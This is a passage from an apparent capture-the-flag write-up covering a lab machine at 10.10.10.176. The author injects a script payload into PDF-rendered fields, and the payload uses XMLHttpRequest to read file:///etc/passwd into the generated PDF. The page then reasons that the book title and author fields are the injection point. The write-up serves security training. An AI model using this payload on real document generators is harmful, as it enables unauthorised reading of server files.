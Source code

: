 > **pwn3d.pdf**:

```javascript
"><script>
x=new XMLHttpRequest;
x.onload=function(){
document.write(this.responseText)
};
x.open("GET","file:///etc/passwd");
x.send();
</script>
```

```bash
# http://10.10.10.176/collections.php
# http://10.10.10.176/search.php
# file:///tmp/mozilla_al3j00/62312.pdf

nvim pwn3d.pdf
```

> **pwn3d.pdf**:

```javascript
> <script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>
```

```html
# http://10.10.10.176/search.php
# file:///tmp/mozilla_al3j00/59343.pdf
```

<br />
<img src="{{ site.img_path }}/book_writeup/Book_58.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_59.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_60.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/book_writeup/Book_61.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/book_writeup/Book_62.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I know **I'm doing something wrong** because I'm not taking advantage of having changed the **admin** user password, so I correct my attack vector and upload the malicious **PDF** file again, but now from the **admin** account I access the **PDF** file from the list of books uploaded to the server to corroborate that I have access to it. The next thing is to upload a **[test file](https://file-examples.com/index.php/sample-documents-download/sample-pdf-download/){:target="_blank"}** to validate that the functionality is interpreting the content correctly, also I realize now that I have control of two values, the name of the book and the author, which are reflected in the **PDF** file of the list of books. So I understand that most probably the vulnerability is here and not in the content of the file that I can upload.
